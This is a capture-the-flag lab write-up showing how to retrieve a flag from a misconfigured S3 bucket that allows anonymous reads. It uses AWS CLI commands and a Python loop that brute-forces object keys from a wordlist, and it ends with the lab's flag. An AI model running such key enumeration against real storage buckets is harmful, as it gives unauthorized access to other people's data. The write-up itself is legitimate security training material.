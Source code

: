 # AWS Security I

## Challenge Description
The bucket policy on 'public' bucket allows an anonymous user to read all objects stored in the bucket.

**Objective:**  Interact with the bucket 'public' on the exposed S3 endpoint and retrieve the flag!

## Instructions
* Once you start the lab, you will have access to a Ubuntu instance.
* Your Ubuntu Instance has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
* The exposed S3 endpoint should be running on port 9000 on the machine located at the IP address 192.X.Y.3.
* Use /usr/share/dirb/wordlists/small.txt dictionary.

---

## Solution
As per the instructions, run `ip addr` to get our instance's IP:
```
root@attackdefense:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
1126: eth0@if1127: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:0a:01:00:09 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.9/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
1129: eth1@if1130: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:c0:ec:87:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.236.135.2/24 brd 192.236.135.255 scope global eth1
       valid_lft forever preferred_lft forever
```
In my case, the endpoint address was `192.236.135.3:9000`.

Searching online, we can find the [documentation](https://awscli.amazonaws.com/v2/documentation/api/latest/index.html) for AWS CLI.

Here, we find that we can specify the endpoint manually with `--endpoint-url`. Since we are not provided credentials, we have to send the request anonymously with `--no-sign-request`.

> **Note:** When I was doing the challenge, I typed in `--endpoint` instead of `--endpoint-url` for some reason. It still ended up working though. ¯\\\_(ツ)_/¯
>
> The commands in this write-up are what I used, so that's why those use `--endpoint`.

We also find that we can use the command `s3api` to interact with the bucket. (I tried `s3` first but couldn't get it working, but I think it's possible to use that as well.)

AWS S3 buckets operate on a key-value basis. We can use the subcommand `get-object` to retrieve an object, given a particular key, using a command like this:
```
aws --endpoint http://192.236.135.3:9000 --no-sign-request s3api get-object --bucket public --key test ./flag
```
This gets the object in the `public` bucket stored under the key `test`, and stores it to `./flag`.

However, running the above command gives us an error, since we do not know the actual key for the flag:
```
An error occurred (NoSuchKey) when calling the GetObject operation: The specified key does not exist.
```

To find the key, we can use the provided wordlist `/usr/share/dirb/wordlists/small.txt`. I wrote a Python script to get the flag:

```python
import os
f = open('/usr/share/dirb/wordlists/small.txt', 'r')
wordList = f.readlines()

for line in wordList:
    line = line.strip('\n')
    os.system(f'aws --endpoint http://192.236.135.3:9000 --no-sign-request s3api get-object --bucket public --key {line} {os.getcwd()}/flag')
```
After running the above script, we can read the output file, `flag`, to get the flag.

```
root@attackdefense:~# cat flag
Flag: 155a5314e36f03ec70eadb3c7dd91049
```

### Flag:
```
155a5314e36f03ec70eadb3c7dd91049
```
